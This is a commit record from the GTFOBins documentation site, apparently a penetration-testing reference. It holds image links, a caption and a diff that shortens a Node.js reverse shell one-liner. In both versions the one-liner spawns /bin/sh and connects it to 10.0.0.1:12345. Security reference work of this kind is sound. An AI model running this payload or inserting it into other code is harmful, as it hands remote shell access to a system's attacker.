

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/node.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1066 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Simplify node reverse shell

```diff
--- a/_gtfobins/node.md
+++ b/_gtfobins/node.md
@@ -15,10 +15,9 @@ functions:
         export RHOST=10.0.0.1
         export RPORT=12345
         node -e 'sh = require("child_process").spawn("/bin/sh");
-        client = new require("net").Socket();
-        client.connect(process.env.RPORT, process.env.RHOST, function () {
-          client.pipe(sh.stdin);
-          sh.stdout.pipe(client);
-          sh.stderr.pipe(client);
+        net.connect(process.env.RPORT, process.env.RHOST, function () {
+          this.pipe(sh.stdin);
+          sh.stdout.pipe(this);
+          sh.stderr.pipe(this);
         });'
 ---
```
